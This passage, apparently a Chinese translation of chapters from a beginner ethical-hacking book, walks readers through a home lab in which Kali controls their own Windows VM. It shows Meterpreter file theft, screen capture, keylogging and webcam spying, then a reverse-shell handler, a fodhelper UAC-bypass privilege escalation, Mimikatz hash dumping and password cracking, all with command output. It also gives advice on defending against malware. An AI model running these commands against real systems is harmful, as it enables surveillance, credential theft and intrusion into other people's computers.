

图 6-5：我们可以用来控制受感染 Windows VM 的一系列令人恐惧的酷 Meterpreter 命令

### 查看和上传文件

我们将通过浏览计算机的文件并上传木马的备份副本到 Windows VM 来开始对 Windows VM 的利用。

1. 在 `meterpreter >` 命令提示符下，输入这些命令以将目录更改为受感染 VM 的 `Documents` 文件夹并列出文件夹的内容：


```
meterpreter > cd  ../Documents
meterpreter > ls
Listing: C:\Users\IEUser\Documents
==================================
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Music
40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Pictures
40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Videos
40777/rwxrwxrwx   0     dir   2019-03-19 07:29:40 -0400  WindowsPowerShell
100666/rw-rw-rw-  402   fil   2019-03-19 06:49:49 -0400  desktop.ini
```

你会看到音乐、图片、视频等文件夹，就像任何其他 Windows 电脑一样。攻击者可以使用这些命令浏览目标计算机并寻找有趣的文件进行窃取。

## 浏览和上传文件
2. 从你的 Kali VM 上传 `Fortnite_cheat_mode.exe` 恶意软件文件的副本到 `Documents` 文件夹：
```
meterpreter > upload /home/kali/Desktop/Fortnite_cheat_mode.exe 
[*] uploading  : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
[*] uploaded   : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
```
3. 切换回你的 Windows 10 VM 并打开你的 `Documents` 文件夹。你应该能看到新上传的特洛伊木马文件，如 图 6-6 所示。


图 6-6：我们可以从 Kali 向被感染的 Windows 10 VM 上传文件。

现在你在 Windows VM 上有了特洛伊木马的备份，如果 Windows Defender 重新启动并删除 `Downloads` 文件夹中的特洛伊木马，你始终可以从 `Documents` 复制并粘贴到 `Downloads`。一旦有人通过网络或电子邮件打开单个感染文件，攻击者通常会在计算机的不同位置上传多个病毒，以确保他们能够保持对目标机器的控制。

## 从受害者计算机下载文件
Meterpreter 中的 `download` 命令允许你从受害者计算机下载文件。为了尝试一下，我们将在 Windows VM 上创建一个示例文本文件，然后窃取它。
1. 在 `meterpreter >` 提示符下输入此命令，以远程控制受害者计算机的 Windows 命令行终端，即 `shell`。
```
meterpreter > shell
Process 4952 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.
```
2. 现在创建一个名为 `hacked.txt` 的文件，其中包含文本“你已被入侵！”
```
C:\Users\IEUser\Documents> echo "You've been hacked!" > hacked.txt
echo "You've been hacked!" > hacked.txt
```
3. 检查 Windows VM 上的 `Documents` 文件夹。你应该能看到我们刚刚从 Kali 远程创建的 `hacked.txt` 文件。
4. 回到 Kali，退出 Windows `shell` 并返回到 Meterpreter：
```
C:\Users\IEUser\Documents> exit
exit
```
5. 现在将文件从 Windows 下载到你的 Kali VM：
```
meterpreter > download hacked.txt
[*] Downloading: hacked.txt -> hacked.txt
[*] Downloaded 24.00 B of 24.00 B (100.0%): hacked.txt -> hacked.txt
[*] download   : hacked.txt -> hacked.txt
```
6. 最后，使用以下命令查看文件的内容，即我们的“你已被入侵！”消息。
```
meterpreter > cat hacked.txt
"You've been hacked!"
```
我们已成功从受害者计算机下载文件！在这种情况下，它是我们从攻击 VM（远程）创建的文件，但真正的攻击者可以下载更重要信息。当 Windows 用户运行 Meterpreter 特洛伊木马时，Windows 用户有权访问的任何文件都可被攻击者下载：客户名单、家庭照片、预算电子表格、税表、银行对账单、员工数据、医疗记录、宝贵的知识产权，或敏感文件 *任何* 类型的敏感文件，都可以用几下按键窃取。

## 查看受害者计算机的屏幕
类似于 Meterpreter shell 的特洛伊木马通常被称为 *backdoors*，因为它们以绕过你所有其他安全措施（包括登录）的方式让攻击者访问你的计算机。就像偷偷从电影院的后门溜进去一样。当你在 Windows VM 上点击 Meterpreter 特洛伊木马文件时，你打开了进入计算机的秘密通道，允许我们上传和下载文件。但情况更糟：你已给我们的攻击 VM 一个后门来查看你的计算机屏幕、记录你的击键，甚至打开你的网络摄像头！为了证明这一点，我们将尝试从 Kali 内查看 Windows VM 的屏幕。
1. 在 Meterpreter shell 中输入 `screenshot -v true`。使用此命令，攻击者可以查明受害机器用户正在看到什么。
```
meterpreter > screenshot -v true
Screenshot saved to: /home/kali/Desktop/kYpTvFbl.jpeg 
```
2. 应该会弹出一个窗口，显示 Windows VM 的屏幕截图，如 图 6-7 所示。

图 6-7：从 Windows VM 捕获屏幕截图
3. 你甚至可以更进一步，实时监视用户的计算机屏幕。在 Meterpreter 中，输入 `screenshare` 命令：
```
meterpreter > screenshare
[*] Preparing player...
[*] Opening player at:  /home/kali/oDgBGMiY.html
[*] Streaming...
```
此命令并不总是有效，并且可能会使你的两个 VM（以及你的主机计算机）变得极其缓慢，因为它尝试通过虚拟网络将 Windows 10 VM 的计算机屏幕实时视频流传输到 Kali VM。但如果它确实有效，你将通过 Kali 中的浏览器窗口看到 Windows 10 VM 的桌面，如 图 6-8 所示。
4. 切换到你的 Windows VM，移动一些文件或窗口，清空回收站，或打开网页。如果你有多个显示器或足够空间同时显示两个 VM，你可以通过 Kali 中浏览器里的流媒体视频观看你在 Windows VM 中所做的一切。够 creepy 的，对吧？
5. 点击回到 Kali 中的 Meterpreter 终端窗口并按 `CTRL-C` 停止屏幕共享。

图 6-8：`screenshare` 命令让 Kali 上的攻击者通过互联网监视你的 Windows 桌面。

## 记录击键
一旦控制了机器，攻击者可以记录用户的每一个击键。这为攻击者提供了用户正在输入内容的记录，包括搜索、命令、密码等。让我们看看它是如何工作的。
1. 在 Meterpreter shell 中输入 `keyscan_start` 以开始记录目标计算机的击键：
```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```
2. 切换回你的 Windows VM，在搜索栏中输入 `notepad` 并打开记事本应用。
3. 在记事本中输入以下信息：
```
My credit card number is not 1111 1111 1111 1111with an expiration of 11/2028and a cvv of 111
```
当然，你绝不应该以明文形式将此类敏感信息存储在计算机上，但世界上许多人确实这样做。
4. 切换回 Kali VM 并输入 `keyscan_dump` 以查看记录的击键：
```
meterpreter > keyscan_dump
Dumping captured keystrokes...
notepad<CR>
<Shift>My credit card number is not 1111 1111 1111 1111<CR>
with an expiration of 11/2028<CR>
and a cvv of 111<CR>
```


Meterpreter 捕获了 Windows 10 用户的所有按键记录，包括像 `<CR>` 这样的特殊键（简写为 *回车*，ENTER 键的另一个名称）。在文本文件中输入似乎是不切实际的例子，但你可以想象用户实际上是在在线购物网站输入信用卡号码，或输入用户名和密码登录其银行的网页门户。

5. 在 Meterpreter shell 中输入 `keyscan_stop` 以停止从 Windows 计算机捕获按键记录：
```
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 通过网络摄像头监视

如果记录按键记录对你来说还不够 creepy，查看受害者计算机的网络摄像头应该会让你想搬到没有网络的偏远岛屿（或至少说服你用便利贴遮住网络摄像头）。将网络摄像头连接到 Windows VM 可能不起作用，但即使你无法亲自尝试此攻击，它对配备网络摄像头的真实 Windows 计算机也可靠有效。要继续操作，你需要一个网络摄像头（笔记本电脑内置的或连接到桌面的 USB 网络摄像头）以及耐心，按照刚才给出的警告中的步骤多次重新运行整个黑客攻击。

1. 检查网络摄像头是否出现在 Windows VM 菜单栏下的 Devices▶Webcams 下。如果出现，选择其名称并跳到第 6 步。否则，我们需要将网络摄像头连接到 VM。
2. 关闭 Windows VM 并选择 **关闭机器**。
3. 在 VirtualBox Manager 中，选择 Windows VM 并前往 **机器**▶**设置** 或 **机器**▶**设置**▶**端口**（在 macOS 上）。在设置菜单中选择 **USB** 并选中 **启用 USB 控制器** 旁边的复选框。
4. 重新启动 Windows VM。前往菜单栏，选择 **设备**▶**网络摄像头** 或 **设备**▶**USB**，并选择网络摄像头的名称。
5. 关闭 Windows VM 的防火墙和 Defender。然后再次运行木马。
6. 在 Kali 中的 Meterpreter 提示符下输入 `webcam_list` 以查看网络摄像头是否可用。你应该会看到类似以下内容：
```
meterpreter > webcam_list
1: VirtualBox Webcam - Logitech HD Webcam C310 
```
我的网络摄像头显示为 `VirtualBox Webcam - Logitech HD Webcam C310`，例如。
7. 输入 `webcam_stream` 通过 Meterpreter 连接到网络摄像头。
```
meterpreter > webcam_stream
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/kali/KMKiGQxa.html
[*] Streaming...
```
Meterpreter 将打开 Firefox 并从 Windows VM 的网络摄像头流式传输视频，如 图 6-9 所示。


图 6-9：网络摄像头流显示了我和办公室里的书架。

你应该会看到网络摄像头的 LED 灯亮起，表示摄像头处于活动状态。与 `screenshare` 和 `keyscan` 命令不同，网络摄像头黑客会让你知道有人在监视你。如果网络摄像头灯在你未使用时亮起，请运行 *彻底* 的防病毒扫描并重新启动计算机，看看灯是否熄灭。然而，不要依赖网络摄像头 LED：一些高级黑客能够在 *不打开* LED 的情况下通过网络摄像头进行监视。这就是为什么练习下一节中描述的安全措施很重要。

要停止从 Windows 10 VM 的网络摄像头流式传输视频，请关闭 Firefox 并在 Meterpreter 窗口中按 CTRL\-C 中断 `webcam_stream` 命令。然后拿一张便利贴或一小块遮蔽胶带遮住笔记本电脑上的网络摄像头！

## 防御恶意软件

如本章所示，病毒的创建和传播非常容易。任何你收到或打开的可疑电子邮件附件、链接、网页、应用或视频都可能包含等待被启动的恶意软件。攻击者甚至不需要很多技能；他们只需要使用 Metasploit 并欺骗人们下载病毒。一旦计算机被感染，不道德黑客可以对其使用的攻击是相当可怕的。

你的最佳防御措施如下：

1. 经常更新软件。更新你的操作系统和应用程序，从文字处理器和网页浏览器到 PDF 阅读器——至少每月一次。选择一个月中的某一天，例如 1 日、15 日或 30 日，并在日历上标记以更新你的设备和所有应用程序。把它当作另一项必须完成的任务，就像付账单或割草一样。Kali 中的 2,000 多个漏洞利用攻击的是旧版本的软件，因此如果你为使用的软件安装最新的安全补丁，你将更不容易受到攻击。
2. 使用防火墙和防病毒软件。保持防火墙开启并定期更新防病毒软件。有许多免费和低成本的防病毒工具可供选择。研究哪些工具阻止了最多的恶意软件，然后每周更新你的防病毒工具，或打开自动更新，以便它获得最佳的保护机会。
3. 三思后点。恶意软件可通过感染的程序文件、盗版视频，甚至 Office 文档和 PDF 启动。点对点文件共享网站充满了“免费”的恶意软件感染文件，等待毫无防备的受害者。对你不信任来源的 *任何* 文件运行 VirusTotal 或另一个病毒扫描，并且完全不要下载可疑或非法的 files。

这些措施不会让你无敌，但它们会帮助你避免大多数基于恶意软件的攻击，并且会让你成为一个足够难的目标，以至于大多数黑客会转向其他受害者。大多数攻击依赖于 *低垂的果实* 概念——恶意黑客入侵你系统的简单机会，例如过时的软件、已禁用的防火墙或防病毒程序，或用户在未先扫描的情况下打开链接或下载文件。不幸的是，有足够的低垂果实让黑客忙碌，因此采取这些聪明的预防措施可以让你免受超过 90% 的攻击。

哦……并且在不使用时遮住那个网络摄像头！

## 总结

在本章中，你学习了攻击者如何创建恶意软件以及未受保护的计算机如何容易被感染。使用 Metasploit 框架，你创建了一个 Meterpreter 远程访问木马（RAT），这是一种特殊的恶意软件，只要攻击者有互联网连接，就能让攻击者从世界任何地方控制你的计算机。你通过在 Kali Linux VM 中打开 Apache Web 服务器并将木马放在共享网页文件夹中，在网络上共享你的恶意软件。然后你将恶意软件下载到 Windows VM 并打开文件以感染你的机器。

接下来，你从 Kali 中的 Meterpreter 远程 shell 控制了 Windows VM。你学习了攻击者如何仅使用一两个命令上传和下载文件、窃取屏幕截图、记录按键并通过网络摄像头监视。对于大多数攻击，你的 Windows VM 甚至没有显示它正在被黑客攻击。

最后，你学习了如何防止许多基于恶意软件的攻击。避免可疑下载、链接和网站；保持防火墙和防病毒软件开启并保持最新；定期更新操作系统和应用程序都是重要的预防措施。如果你采用多层安全措施，你将成为一个更难的目标，大多数攻击者会转向更容易的猎物。

在下一章中，我们将把技能提升一个层次，看看不道德的黑客如何使用 Meterpreter 和其他工具窃取和破解密码。

# 7 窃取和破解密码


在第 6 章中，你学习了攻击者如何创建恶意软件来感染你的计算机并查看你的文件、击键、屏幕、网络摄像头视频等。在本章中，你将看到攻击者如何使用同样的恶意软件窃取 Windows 计算机上所有用户的加密密码。然后你将了解到黑客如何 *crack* 这些密码，或以未加密的明文形式恢复它们。

如果攻击者破解了你的密码，他们可能能够入侵你在其他账户、网站或设备上使用过该密码的地方——即使你为这些其他账户添加了额外字符使其“唯一”。弱密码是黑帽黑客入侵组织网络或个人账户的最简单方法之一。然而，如果你的密码足够强，即使攻击者窃取了加密密码，他们也无法破解它。

## 密码哈希

现代计算机系统和安全网站在存储密码之前会使用密码学哈希函数对其进行加密。与间谍电影中遇到的、旨在在接收端被解码的代码不同，*密码学哈希函数* 以无法逆向或解密的方式加密你的密码。密码的哈希版本被称为 *密码哈希*。哈希可以被视为十六进制数字的长字符串，如 列表 7-1 所示。

```
359878442cf617606802105e2f439dbc
63191e4ece37523c9fe6bb62a5e64d45
9dddd5ce1b1375bc497feeb871842d4b
4d1f35512954cb227b25bbd92e15bc7b
e6071c75ea19bef227b49e5e304eb2f1
```

列表 7-1：五个密码的哈希版本

当你登录计算机或网站时，它检查你是否输入了正确密码的唯一方法是，对你输入的字符运行相同的哈希函数，然后将结果与数据库中存储的密码哈希进行比较。

有许多不同类型的哈希函数，但它们有几个共同点：

* 特定哈希函数中的相同输入文本始终会产生相同的哈希值；这是必要的，这样你的存储密码哈希才能与你返回站点时输入的密码的哈希进行测试。
* 特定哈希函数的每个哈希长度都相同，无论输入文本可能有多长。由于一个单词的密码和五个单词的密码会产生相同数量的哈希字符，哈希函数隐藏了你的密码长度。
* 在输入中更改一个字符会导致哈希中的许多字符发生变化，因此即使在密码中添加一个字符也会完全改变哈希。

## 窃取 Windows 密码哈希

在本节中，我们将使用你的 Kali Linux VM 从 Windows 10 VM 中窃取密码数据。首先，我们将在 Windows 10 VM 中创建几个用户名和密码。接下来，我们将使用 Meterpreter 远程访问木马重新入侵 Windows VM。然后，我们将使用 Metasploit 中的 Mimikatz 工具从 Windows 10 受害者机器上窃取密码哈希。

### 创建 Windows 用户

首先，让我们向 Windows 10 VM 添加一些用户，以便以后窃取他们的密码哈希。

1. 在 VirtualBox 中打开你的 Windows 10 VM（使用 `IEUser` 和 `Passw0rd!` 登录）。
2. 在 Windows 搜索栏中输入 `cmd`，右键单击 **Command Prompt** 应用，然后单击 **Run as administrator**。当 Windows 询问是否允许此应用更改你的设备时，单击 **Yes**。
3. 使用我们在第 2 章 Sticky Keys 攻击期间使用的相同命令创建一个新用户帐户：

```
C:\WINDOWS\system32> net user ironman Jarvis /add
```

此命令添加了一个名为 *ironman* 的用户，密码为 *Jarvis*。
4. 现在使用不同复杂度和长度的密码添加更多用户帐户：

```
C:\WINDOWS\system32> net user ana Password1 /add
C:\WINDOWS\system32> net user ben P@$$w0rd! /add
C:\WINDOWS\system32> net user carol CaptainMarvel /add
C:\WINDOWS\system32> net user clark superman20 /add
C:\WINDOWS\system32> net user kara SuperGirl7! /add
C:\WINDOWS\system32> net user peter SpidermanRulez:) /add
```
5. 在最后一条命令之后，Windows 会警告你密码长度超过 14 个字符（这是 2000 年之前 Windows 机器的密码长度限制！）。输入 `Y` 告诉 Windows 你仍然想使用长密码。
6. 最后，为一个以你名字命名的用户名创建一个强密码短语（由至少四个单词组成，外加一个数字或特殊符号）——但确保它是一个假密码短语，你没有在任何真实账户上使用它，因为我们将尝试破解它。这是我的：

```
C:\WINDOWS\system32> net user bryson Don'tyouwishyourpasswordwastoughlikemine! /add
```

你可能认为每次登录时输入这样的密码短语太困难了，但它实际上比你添加的大多数密码更容易记住，也更难猜测。

### 使用 Meterpreter 重新入侵 Windows 10

接下来我们需要从 Kali 重新入侵 Windows 10 VM。

1. 启动你的 Kali VM（使用用户名和密码 `kali` 登录）并通过单击 Kali 菜单按钮并选择 **08 - Exploitation Tools**▶**Metasploit Framework** 打开 Metasploit 应用。
2. 在 `msf6` 命令提示符下，输入以下命令再次启动你的 Kali Web 服务器：

```
msf6 > sudo service apache2 start
```

Web 服务器将提供包含你的 Windows 恶意软件的 `10.0.9.x/share` 文件夹，以防你需要再次下载它。
3. 在 Metasploit 中输入以下四个命令以监听 Meterpreter 木马回连：

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.9.x
msf6 exploit(multi/handler) > exploit -j
```

请记住将 `10.0.9.x` 更改为你的 Kali VM 的 IP 地址（输入 `ip addr`，或简写 `ip a` 以查看 IP 地址）。
4. 切回你的 Windows 10 VM。关闭 Windows Defender 实时病毒保护：在 Windows 搜索栏中输入 `virus`，打开 **Virus & threat protection settings**，单击 **Manage settings**，并将实时保护下的切换开关滑动到 **Off**。
5. 在 Windows 10 VM 的管理员命令提示符中输入以下命令以同样禁用 Windows 防火墙：

```
C:\Windows\system32> netsh advfirewall set allprofiles state off
```

Windows 将回复 `Ok.`。
6. 找到你在第 6 章中创建的 Meterpreter 木马可执行文件。该文件仍应位于你的 `Downloads` 或 `Documents` 文件夹中。如果 Windows Defender 已将其删除，请打开 Edge 浏览器，访问 `http://<10.0.9.4>/share/`（如果你的 Kali VM 的 IP 地址与 `10.0.9.4` 不同，请替换），然后再次下载木马。再次检查你的 Virus & threat protection 设置，确保实时保护已关闭。然后双击木马运行它。
7. 切回你的 Kali VM，你应该会看到一个 Meterpreter 会话已打开：

```
msf6 exploit(multi/handler) > [*] Sending stage (179779 bytes) to 10.0.9.5[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:50789) at 2020-06-17 15:40:38 -0400
```

### 提升权限

窃取 Windows 密码需要管理员或系统级权限，这比你用来运行 Meterpreter 木马的 `IEUser` 帐户更高的访问级别。借助 Metasploit，我们将能够使用另一个漏洞利用来提高我们的访问级别。此过程被称为 *privilege escalation*。


我们将使用 Metasploit 对 Windows `fodhelper` 漏洞的利用来获取系统级访问权限。Windows 使用一个名为 `fodhelper.exe` 的程序（`fod` 是 “features on demand” 的缩写）来管理区域设置，例如您所选语言的键盘布局。由于该应用程序以更高权限运行，以便在多个应用程序（如您的网页浏览器、文字处理器和桌面）中更改语言设置，因此它是黑客的一个良好目标。

1. 在你的 Kali VM 中，确保你处于 `msf6` 命令提示符下，而不是与 Meterpreter 会话交互。如果看到 `meterpreter >` 命令提示符，输入 `background` 返回到常规的 `msf6` 命令提示符：
```
meterpreter > background[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```
2. 从 `msf6` 提示符输入以下用粗体显示的五个命令：
```
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_fodhelper
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_fodhelper) > set SESSION 1
SESSION => X
msf6 exploit(windows/local/bypassuac_fodhelper) > set LHOST 10.0.9.x
LHOST => 10.0.9.x
msf6 exploit(windows/local/bypassuac_fodhelper) > exploit
```
将 `set` `SESSION` 命令更改为与你的会话编号相匹配（如果不是 1），并将 `LHOST` IP 地址更改为与你的 Kali 机器相匹配。

3. 最后一条命令 `exploit` 可能需要尝试几次。如果收到 `no` `session` `was` `created` 的消息，请使用上箭头并按回车重新运行 `exploit` 命令。当它成功时，你会看到 `Meterpreter` `session` `2` `opened`，这意味着利用已打开第二个会话。你的命令提示符将改回 `meterpreter >`，表示你正在与新的 Meterpreter 会话交互。

权限提升是你在这本书中执行的最高级别、最具技术挑战性的攻击，可能需要多次尝试。如果持续看到“no session created”消息，请检查你的 Windows 10 VM，确保 Windows Defender 的 病毒和威胁防护 设置仍处于关闭状态。如果仍然卡住，请尝试从头重新运行此攻击。而且，在未来五年内，Windows 很可能会修复 `fodhelper` 漏洞，你将不得不尝试不同的利用。有关更新，请查看本书网站 at [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) for updates or do a web search for “Metasploit privilege escalation” on the latest version of Windows.

4. 在 Meterpreter 中输入 `getsystem` 以获取对 Windows 10 VM 的系统级访问权限：
```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```
5. 通过输入 `getuid` 检查你是否已获得系统级访问权限：
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Meterpreter 将回复你的用户 ID 为 `NT AUTHORITY\System`，表示你现在已具有系统级访问权限。

## 使用 Mimikatz 窃取密码哈希

现在我们拥有了系统级权限，可以准备窃取密码哈希了。我们将使用 Mimikatz，这是一款可以从多个位置访问 Windows 密码的黑客工具，包括直接从计算机运行时内存中访问。Metasploit 中的 Mimikatz 模块名为 `kiwi`（编写 Mimikatz 的新西兰人 Benjamin Delpy 自称 Gentil Kiwi）。

1. 在 Meterpreter 提示符下输入 `use` `kiwi` 以加载 Mimikatz 工具：
```
meterpreter > use kiwi
```
2. Mimikatz 启动屏幕将出现在你的 Meterpreter 控制台中。现在我们可以转储 Windows 10 VM 中所有用户的密码哈希，如下所示：
```
meterpreter > lsa_dump_sam
```
3. Mimikatz 将通过列出它能找到的所有用户和 Windows 密码哈希来作出回应：
```
[+] Running as SYSTEM
[*] Dumping SAM--snip--
RID  : 000003f0 (1008)
User : peter  Hash NTLM: e262404bfe47aa34ba668187b4209380
RID  : 000003f1 (1009)
User : bryson Hash NTLM: 0a2b1c4f5d7ad37f9e2df24ff3ab4c48 
```
这些密码哈希使用 `New Technology LAN Manager (NTLM) format`，这是 Windows 计算机存储登录信息（包括密码哈希）的方式之一。我们在破解密码时稍后会选择这种类型的密码哈希。

4. 为了破解密码哈希，我们需要将它们收集到一个文本文档中。突出显示用户名和 NTLM 哈希，右键单击所选内容并选择 `Copy`（你不能在 Metasploit 控制台中使用 `ctrl-C` 复制；那是在终端窗口中退出或关闭正在运行进程的命令）。

5. 通过单击 Kali 菜单按钮并选择 `Favorites`▶`Text Editor` 打开 Mousepad 文本编辑器。按 `ctrl-V` 将你从 Meterpreter 复制的文本粘贴到 Mousepad 中。

6. 单击 `File`▶`New` 打开第二个 Mousepad 窗口。将用户名和密码哈希仅复制并粘贴到此新文档中，格式为 `username:hash`，每行一个用户名和哈希值，以冒号分隔，如 图 7-1 所示。确保没有多余的空格。


图 7-1：复制并粘贴用户名和 NTLM 哈希值到新的文本文件

跳过没有哈希值的任何用户或 Windows 创建的任何账户，如 `sshd`、`Guest` 和 `DefaultAccount`。你只关心真实的用户和管理员账户，如 `IEUser`、`Administrator`，以及本章前面创建的用户账户。

7. 将文件保存为 `Windows_hashes.txt` 到你的 `Documents` 文件夹中。

## 破解密码

现在我们已经有了从 Windows VM 窃取的用户名和密码哈希文档，可以开始破解密码了。黑客采用几种不同的密码破解方法。*字典攻击* 使用常见密码列表，对每个密码进行哈希以查看是否与你要破解的哈希匹配。字典攻击速度快，但只对相对简单的密码有帮助。*暴力攻击* 系统地尝试每一种字符组合，以找到长度一定的甚至高度复杂的密码。这使得暴力攻击非常彻底，但速度极慢。*掩码攻击* 是一种特殊的暴力攻击，我们在知道密码的一部分并且只需要对几个字符进行暴力破解时使用它。

我们将尝试几种密码破解方法。正如你将看到的，互联网和 Kali Linux 拥有使破解密码变得轻松的资源。首先，你将搜索一个免费的在线密码数据库来破解常见的密码哈希。然后，你将使用 Kali 的众多密码破解工具之一 `John the Ripper` 来破解更多哈希。你将从对较易密码的密码字典攻击开始，最后进行掩码攻击。

### 免费在线密码数据库

Hashes.com 是一个网络服务，允许你在包含 *数十亿* 个先前破解哈希的数据库中搜索密码。每次对特定密码进行哈希时，你都会得到相同的哈希，因此数据库可以存储每个密码及其哈希。当你搜索一个哈希时，数据库会返回未加密的密码（如果该密码在数据库中）。

1. 在你的 Kali VM 中，打开 Firefox 浏览器并访问 [`hashes.com/decrypt/hash/`](https://hashes.com/decrypt/hash/)。

2. 将 `Windows_hashes.txt` 文件中的用户名和密码哈希粘贴到 Hashes 文本框中。然后删除用户名，使文本框中仅显示哈希，如 图 7-2 所示。


3. 点击 **提交并搜索** 以搜索 Hashes.com 数据库。片刻之后，你应该会看到一份破解密码的列表：

```
64f12cddaa88057e06a81b54e73b949b:Password1
85f4aaf6ac4fac1d9b55e6b880bcda3e:CaptainMarvel
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
d6566eae841e523df8fd96a42bcbd4ac:superman20
fc525c9683e8fe067095ba2ddc971889:Passw0rd!--snip--
```

